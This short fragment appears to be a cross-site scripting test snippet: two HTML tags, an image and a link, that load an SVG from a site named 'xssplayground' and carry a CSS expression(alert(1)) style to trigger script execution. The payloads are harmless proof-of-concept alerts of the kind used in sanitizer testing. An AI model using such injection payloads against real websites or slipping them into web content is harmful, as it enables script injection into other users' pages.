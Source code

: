 <img src="http://xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))">
<a href="http://xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))">click</a>
